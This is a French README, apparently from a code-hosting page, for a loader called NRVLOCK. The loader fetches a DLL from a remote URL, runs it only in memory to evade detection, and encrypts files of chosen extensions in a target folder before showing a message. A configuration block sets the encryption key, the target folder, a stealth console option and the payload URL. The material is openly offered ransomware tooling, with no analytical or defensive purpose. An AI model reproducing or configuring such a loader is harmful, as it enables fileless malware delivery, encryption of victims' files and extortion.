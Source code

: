 🚀 Chargeur Sécurisé NRVLOCK

⚠️ Avertissement

© 2024 CyberNrv. Tous droits réservés.
Ce logiciel est privé et confidentiel. Le partage, la modification ou la redistribution de ce code sont strictement interdits. Toute utilisation, distribution ou analyse non autorisée de ce chargeur constitue une violation des termes définis par l’auteur.


---

🔒 Objectif

Ce chargeur est conçu pour charger NRVLOCK.dll en mémoire de manière sécurisée, sans laisser de traces sur le disque.
Il garantit une exécution furtive et une opération exclusivement en mémoire, ce qui le rend hautement efficace et indétectable.


---

🔧 Comment ça fonctionne ?

1️⃣ Télécharge la DLL NRVLOCK.dll distante depuis une URL prédéfinie.
2️⃣ Charge la DLL directement en mémoire (sans écriture sur le disque).
3️⃣ Exécute la fonction NRVRUN dynamiquement, en passant des arguments personnalisables.
4️⃣ Efface la mémoire après exécution, ne laissant aucune trace.


---

🔹 Configuration

Pour utiliser ce chargeur, remplacez les valeurs suivantes par les vôtres :

string target = "C:\\Users\\Public\\Documents";  // 📂 Répertoire cible
string extensions = ".txt;.docx";  // 📝 Extensions de fichiers à traiter
string key = "YourEncryptionKey";  // 🔑 Clé de chiffrement
string lkey = "YourLicenseKey";  // 🔏 Clé de licence
bool ViewConsole = true;  // 🖥️ Affichage de la console (true = visible, false = furtif)
string msg = "Your files have been secured!";  // ✉ Message personnalisé après exécution
string dllUrl = "https://yourserver.com/NRVLOCK.dll";  // 🔗 URL de téléchargement de la DLL NRVLOCK


---

🚀 Utilisation privée uniquement. Respectez les termes d’utilisation.
© 2024 CyberNrv. Tous
droits réservés.
